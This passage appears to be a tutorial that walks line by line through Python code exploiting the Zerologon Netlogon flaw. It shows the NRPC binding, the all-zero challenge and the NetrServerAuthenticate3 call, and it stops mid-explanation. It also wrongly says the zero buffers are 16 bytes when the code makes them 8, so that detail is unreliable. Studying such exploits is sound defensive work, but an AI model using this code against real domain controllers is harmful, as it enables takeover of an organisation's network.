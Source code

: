 

Lines 20-25

def try_zero_authenticate(dc_handle, dc_ip, target_computer):

  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

Line 1 is defining the try_zero_authenticate function and is taking the previously mentioned 3 variables as input, and is passing them into the function. Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that we can communicate with the domain controller.



Lines 27-40

  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  flags = 0x212fffff

  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)

Line 1 and 2 are establishing two new variables, plaintext and ciphertext containing 16 Bytes of "\x00" which will be used to exploit the Zero Logon vulnerability. Line 4 contains a variable called Flags. These are the default flags observed from a Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled (Source/Credit: Secura).



Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1, the client creates a NetrServerReqChallenge containing the following information required by the Microsoft Documentation:

 NTSTATUS NetrServerReqChallenge(
   [in, unique, string] LOGONSRV_HANDLE PrimaryName,
   [in, string] wchar_t* ComputerName,
   [in] PNETLOGON_CREDENTIAL ClientChallenge,
 );

The Primary Name being the DC Handle, the Computer Name being the Target Computer, and the Client Challenge being 16 bytes of "\x00". 



And the client will receive back, which will be used in Figure 1, Step 2:

NTSTATUS NetrServerReqChallenge(
   [out] PNETLOGON_CREDENTIAL ServerChallenge
 );

Lines 8 sets up a try except (we'll see the rest of that in the next few lines), but in line 9 is where we actually attempt to exploit the Zero Logon vulnerability, this would be Figure 1, Step 3. This section requires a fair bit more information, per the Microsoft Documentation for NetrServerAuthenticate3, the following is required: 
